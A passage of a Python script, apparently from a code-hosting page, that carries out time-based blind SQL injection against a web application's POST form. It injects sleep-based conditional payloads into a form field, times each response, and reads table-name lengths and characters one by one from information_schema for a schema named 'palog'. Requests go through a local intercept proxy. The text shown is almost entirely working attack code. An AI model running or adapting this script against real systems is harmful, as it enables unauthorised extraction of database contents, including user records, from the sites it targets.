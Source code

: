 ```
                "userRank": "1",
                "userPhone": "1",
                "userHomeAddress": "1",
                "userMobilePhone": "1",
                "userMailAddress": "1",
                "userMSN": "1",
                "userNt": "1",
                "userCA": "1",
                "userPwd": "1",
                "userClass": "1",
                "parentId": "1",
                "bxlx": "1"
            }
        }
    }"""
    return data


def requ_biao():
    for i in range(0,30):
        for a in range(0,30):
            payload = """"1' and if(length((select table_name from information_schema.tables where table_schema='palog' limit 0,"""+str(i)+"""))="""+str(a)+""",sleep(1),1)#\""""
            data = data_post(str(payload))
            print(data)
            time_init = time.time()
            requests.post(url=url, data=data, headers=headers, proxies={'http': 'http://127.0.0.1:8080'},verify=False)
            time_desy = time.time()
            time_easy = time_desy-time_init
            if time_easy> float(8):
                print("第"+str(i)+"个表长度为"+str(a))
                break
            else:
                # print("正在验证第"+str(i)+"表长度"+str(a))
                print()
def requ_biao_dump():
    tables = ''
    for i in range(0,20):
        for a in characters:
            # ?id = 1 and if (substr((select table_name from information_schema.tables where table_schema=database() limit 0, 1), 1, 1)='n', sleep(3), 1)

            payload = f""""1' and if (substr((select table_name from information_schema.tables where table_schema='palog' limit 0, 1), {i}, 1)='{a}', sleep(1), 1)#\""""
            data = data_post(str(payload))
            # print(data)
            time_init = time.time()
            requests.post(url=url, data=data, headers=headers, proxies={'http': 'http://127.0.0.1:8080'},verify=False)
            time_desy = time.time()
            time_easy = time_desy-time_init
            if time_easy> float(8):
                print("第"+str(i)+"个表名为"+str(a))
                tables+=a
                print("[+] table: ",tables)
                break
            else:
                print("",end="")
if __name__ == '__main__':
    requ_biao_dump()
```  
  